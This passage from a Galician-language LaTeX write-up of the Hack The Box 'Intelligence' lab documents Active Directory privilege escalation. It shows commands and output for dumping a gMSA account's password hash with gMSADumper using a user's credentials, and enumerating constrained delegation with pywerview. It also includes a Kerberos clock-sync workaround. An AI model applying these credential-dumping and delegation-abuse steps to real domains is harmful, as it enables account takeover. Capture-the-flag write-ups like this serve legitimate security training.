 \documentclass[a4paper]{article}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Escalada de privilexios: gMSADumper]
$ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::ee6ba16bad56e4fd9cc2a4156710cd2d\end{lstlisting}

Precisamos un correcto \textbf{spn}, logo empregamos \textbf{pywerview}:
        \begin{lstlisting}[language=Bash, caption=Escalada de privilexios: pywerview]
$ pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248
dnshostname: svc_int.intelligence.htb
dnshostname: dc.intelligence.htb

$ pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248 --full-data | grep -i allowedtodelegate
msds-allowedtodelegateto:       WWW/dc.intelligence.htb\end{lstlisting}



\subsubsection{Flag root}
\textbf{\color{red}{PROBLEMA TEMPO KERBEROS - ntpdate}}
        \begin{lstlisting}[language=Bash, caption=ntp - kerberos]
$ sudo timedatectl set-ntp false            
                                                                                  
$ sudo ntpdate 10.10.10.248 
{"time":"2022-06-07T08:46:03.465482+0700","offset":-0.001070,"precision":0.053495,"host":"10.10.10.248",
"ip":"10.10.10.248","stratum":1,"leap":"no-leap","adjusted":false}

$ rm dates.txt;for i in $(timedatectl list-timezones)                                                                                                           
do          
  sudo timedatectl set-timezone $i; echo -n "$i " >> dates.txt
  date >> dates.txt
done  
                                                                                 
$ sudo timedatectl set-timezone Africa/Bissau\end{lstlisting}
                                    
\end{document}
